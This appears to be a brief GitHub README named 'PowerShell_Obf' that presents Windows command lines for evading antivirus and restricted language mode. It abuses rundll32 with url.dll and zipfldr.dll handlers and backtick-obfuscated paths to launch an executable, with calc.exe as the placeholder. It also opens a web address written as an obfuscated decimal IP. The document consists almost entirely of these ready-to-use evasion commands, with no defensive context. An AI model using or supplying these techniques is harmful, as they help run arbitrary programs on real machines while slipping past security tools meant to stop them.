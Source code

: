 # PowerShell_Obf

#Calling files in restricted language mode and bypass most AVs

`` rundll32 url.dll,FileProtocolHandler file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E ``

`` rundll32.exe zipfldr.dll,RouteTheCall file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E ``

`` rundll32 url.dll,OpenURL file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E ``

#Call a web page via its decimal value

`` rundll32 url.dll,OpenURL HTTP://`2`9`1`5`2`2`4`9`3`3 ``
